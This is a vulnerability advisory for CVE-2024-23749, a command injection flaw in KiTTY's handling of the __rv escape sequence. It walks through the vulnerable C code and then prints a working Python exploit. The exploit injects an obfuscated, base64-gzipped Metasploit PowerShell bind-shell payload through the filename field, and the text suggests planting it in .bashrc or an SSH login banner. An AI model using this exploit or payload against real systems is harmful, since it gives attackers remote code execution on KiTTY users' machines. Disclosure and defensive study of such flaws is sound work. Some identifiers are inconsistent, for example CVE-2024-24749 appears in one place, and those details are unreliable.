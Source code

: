 ```yaml
---
title: Command Injection Vulnerability in KiTTY Get Remote File Through SCP Input (CVE-2024-23749)
---
```


## Contents:

1. [Summary](#summary)
2. [Analysis](#recon)
3. [Exploitation](#exploitation)
4. [Acknowledgments](#acknowledgments)
5. [Timeline](#timeline)
6. [Additional Advisory](#additional)

## Summary: <a name="summary"></a>

Austin A. DeFrancesco (DEFCESCO) discovered a command injection vulnerability in KiTTY ([https://github.com/cyd01/KiTTY/](https://github.com/cyd01/KiTTY/blob/75fa2abcd220c17249ff7252f8d5224137001f2d/kitty.c#L2597-L2602)). This vulnerability: 

- Is exploitable by any KiTTY user connecting to a host with the embedded exploit;
- The vulnerability was introduced in the original release in May 2021 (commit 4f79b1e) and affects all versions up to KiTTY ≤ 0.76.1.13 in their default configuration.

Austin developed an exploit for this vulnerability and obtained remote code execution in the context of the user running the application; by default, KiTTY can be operated in the user permission group of Standard Users. This exploit is stable and repeatable on all Microsoft Windows operating systems 11/10/8/7/XP. 

## Analysis: <a name="analysis"></a>

CVE-2024-23749 command injection vulnerability is in `kitty.c` precisely the `GetOneFile` function. The vulnerable lines of code are on lines `2369-2386`; in the latest revision `75fa2abcd220c172` (https://github.com/cyd01/KiTTY/blob/75fa2abcd220c17249ff7252f8d5224137001f2d/kitty.c#L2369C4-L2391C2).

If KiTTY encounters the ANSI escape sequence `\033]0;__rv` in a stream, it interprets it as an instruction to transfer files using Putty Secure Copy Protocol (PSCP):

- `\033`: This is the escape character (octal representation of ASCII ESC), which signals the beginning of an escape sequence.
- `]0;`: This sequence part indicates a metacommand will be defined.
- `__rv`: This is the vulnerable KiTTY command to transfer files using PSCP, which takes the input of a filename or file path.
- `\077`: This is the terminator sequence to indicate the end of the escape sequence.
- KiTTY’s `kitty.c` `__rv` command runs through specific handling based on the input parameters and configurations.

After the series of specific handling requests for other input parameters and configurations (at lines 2277-2368), KiTTY checks if the `filename` is larger than zero and checks if the `filename` is a directory or a single filename (at lines 2372). After these parameter and configuration checks, the filename is concatenated to the `buffer` (at line 2377). Finally, the constructed buffer is executed using the `system( buffer )` (at line 2386). 

CVE-2024-24749, where the `filename` variable is vulnerable to command injection, occurs due to insufficient input sanitization and validation, failure to escape special characters, and insecure system calls (at lines 2369-2390). This allows an attacker to add inputs inside the `filename` variable, leading to arbitrary code execution. 

---

2369 if( filename[0]=='/' ) {
2370        strcat(buffer, filename ) ;
2371    } else {
2372        if( (directory!=NULL) && (strlen(directory)>0) && (strlen(filename)>0) ) {
2373            strcat( buffer, directory ) ; strcat( buffer, "/" ) ; strcat( buffer, filename ) ;
2374        } else if( (directory!=NULL) && (strlen(directory)>0) ) {
2375            strcat(buffer, directory ) ; strcat( buffer, "/*") ; 
2376        } else { 
2377            strcat(buffer, filename ) ; 
2378        }
2379    }
2380    strcat( buffer, "\" \"" ) ; strcat( buffer, dir ) ; strcat( buffer, "\"" ) ;
2381    //strcat( buffer, " > kitty.log 2>&1" ) ; //if( !system( buffer ) ) unlink( "kitty.log" ) ;
2382
2383    chdir( InitialDirectory ) ;
2384
2385    if( debug_flag ) { debug_logevent( "Get on file: %s", buffer) ; }
2386    if( system( buffer ) ) { MessageBox( NULL, buffer, "Transfer problem", MB_OK|MB_ICONERROR  ) ; }
2387
2388    //debug_log("%s\n",buffer);//MessageBox( NULL, buffer, "Info",MB_OK );
2389
2390    memset(buffer,0,strlen(buffer));
2391 }

---

## Exploitation: <a name="exploitation"></a>

### __rv Command Injection:

From an attacker’s point of view, the exploit CVE-2024-23749 can be inserted into the `.bashrc` file for all users or in the SSH warning/message of the day (MOTD) banner. The exploit will trigger once the user logs in or is presented with the SSH warning/MOTD banner. 

KiTTY’s `__rv` function crashed (at line 2601) because adjacent memory was overwritten. 

To reproduce the exploit, follow these steps:

1. Start KiTTY and start an SSH session.
2. Update the payload handler and payload documented in the exploit’s comments.
3. Save the exploit on the connected SSH session.
4. Execute the exploit using Python: `python3 CVE-2024-23749.py`.

```python
#!/usr/bin/python

#----------------------------------------------------------------------------------------#
# Exploit: KiTTY ≤ 0.76.1.13 Command Injection Vulnerability in KiTTY                    #
#        Get Remote File Through SCP Input (CVE-2024-23749)                              #
# OS: Microsoft Windows 11/10/8/7/XP                                                     #
# Author: DEFCESCO (Austin A. DeFrancesco)                                               #
# Software:                                                                              #
# https://github.com/cyd01/KiTTY/releases/download/v0.76.1.13/kitty-bin-0.76.1.13.zip    #
#----------------------------------------------------------------------------------------#
# More details can be found on my blog: https://blog.DEFCESCO.io/Hell0+KiTTY             #
#----------------------------------------------------------------------------------------#
# msf6 payload(cmd/windows/powershell_bind_tcp) > to_handler                             #
# [*] Payload Handler Started as Job 1                                                   #
# msf6 payload(cmd/windows/powershell_bind_tcp) >                                        #
# [*] Started bind TCP handler against 192.168.100.28:4444                               #
# [*] Powershell session session 1 opened (192.168.100.119:36969 -> 192.168.100.28:4444) #
#----------------------------------------------------------------------------------------#

import os
import sys

#-----------------------------------------------------------------#
# msf6 payload(cmd/windows/powershell_bind_tcp) > generate -f raw #
#-----------------------------------------------------------------#

shellcode = b'powershell.exe -nop -w hidden -noni -ep bypass "&([scriptblock]::create'
shellcode += b'((New-Object System.IO.StreamReader(New-Object System.IO.Compression.G'
shellcode += b'zipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBa'
shellcode += b'se64String(((\'H4sIAE7efGUCA5VVTW/b{2}BC{1}+1cMD{2}1GQiTCDXoKkGJdNV0Ey'
shellcode += b'LZGlTYHw0BoahxrQ5NekoptJP7vJSXqw3\'+\'GCbXWwJc7w8fHNG3JRCmYKKeBvNMktzh'
shellcode += b'kvUBgYPA3APsGG\'+\'wQV8wU3ydf4vMgPJzW6NX+gK7aAhNj+t8ptk8l3jJ1zQkptUYW4'
shellcode += b'jBeXa\'+\'QgRGld\'+\'hmTZTc7siLDDveG2lyB/vBoqG4lhtU{1}suygyo+oYquwvp{1'
shellcode += b'}mhlViPtZkMrVioo8PhzNNGdSvBj8JDeCS5pXo5HHVJKh1u\'+\'AFWMm85{2}gI/hVGUK'
shellcode += b'cUCwibZSDB/2A4L0Q+jKpgPa+aywttUKCy\'+\'k6fZzr6viFMtk+wBjSY3bH3tM2bv7XM'
shellcode += b'8kWhDlXHr\'+\'+pWrqC/RRS{1}vzBiujQWsyxHWVPZv0VX4iErjMeMWulfy15inE7/QcB'
shellcode += b'g76n6{1}Qa2ZNgrpyhGs8Yj1VlaNWWIdpbokNSNnj6GvQI+P1jxrwN6ghKxUhdmRrEkN/f'
shellcode += b'pxsLA+wjh8Cm4s+h4SqmF6M{2}cbrqTBFJUpFgWjBn{1}QXuTUmS2lnM8pe5hF0St0yLg0'
shellcode += b'S+dUN2ms{2}zECUXIeDw3X786GnkEfoFWm21lfuul8Z3A6mwXu35luRMjZyD7PfzyN{\'+'
shellcode += b'\'1}l5dFHkTDqcGt4agYDJ3jj4/H2fp1VXkFP/ocsLhrbWm3GiYu{2}bJlsg5qFIImw\'+'
shellcode += b'\'1Wj1Jbew7hFAIUj+fuS7jmPrVjtjRtgMnVujRd8E6kcr\'+\'1Txf3SQJhG8E/BlNRyY'
shellcode += b'SCVai1VJSGBsVvMJWlQaLEfMSd34k5443k5yK0tBobdxuJR3H2Qax\'+\'T3Ztk3Tt{2}2'
shellcode += b'fesc{2}ef3VJqezuDaQjpZfMuTlufvc21mfZbqkrKl5VyDQiHaI6XL6mi7Jzw4iSPS7LY+'
shellcode += b'tBqk6PlKPMoHTC63a6uttnq3KPu+pTbLgmMYBkXlunoT35DmYe2xGEYxBAfsI0gEwuhI0k'
shellcode += b'unH+Y3Vsu3LgXfmC6FVBpfes07FNte1FHpofnzodpd\'+\'IyoERfSimrYbXTGP{1}g1Jc'
shellcode += b'7\'+\'jV4Gcf/nwHz/C1NEmNCt48B1BnUAnSAJ/CySSDE/tf6X8tWeXhiEyoWbroBzjpQL'
shellcode += b'a{2}SIBKSTUdzQ4W67Gu4oRxpCqMXmNw0f+wrbYdHBv4l/zbwfyvY/uGPfJrM+czL/Wyve'
shellcode += b'/8weMP85RLjX4/VTs2t1DfMN3VlBm5bu4j/2ud2V7lbe3cFfoTVXnPBo0IAAA{0}\')-f'
shellcode += b'\'=\',\'9\',\'O\')))),[System.IO.Compression.CompressionMode]::Decompr'
shellcode += b'ess))).ReadToEnd()))\"'

escape_sequence = b'\033]0;__rv:'
escape_sequence += b'" & '
escape_sequence += shellcode
escape_sequence += b' #\007' 

stdout = os.fdopen(sys.stdout.fileno(), 'wb') 
stdout.write(escape_sequence)
stdout.flush()
```

## Acknowledgments: <a name="acknowledgments"></a>

Austin thanks the MITRE CVE Assignment Team for their assistance with the CVE service requests.

## Timeline: <a name="timeline"></a>

2024-01-08: This advisory contains one vulnerability and one additional advisory totaling three vulnerabilities sent to KiTTY maintainer Cyril Dupont; no reply from Cyril.

2024-01-28: Follow-up email with assigned CVE numbers and full writeups sent to Cyril Dupont; no reply.

2024-02-07: Public Advisory & Exploits Release Date (6:00 PM UCT).

## Additional Advisory: <a name="additional"></a>

Buffer Overflow Vulnerabilities in KiTTY Start Duplicated Session Hostname (CVE-2024-25003) & Username (CVE-2024-25004) Variables: https://blog.defcesco.io/CVE-2024-25003-CVE-2024-25004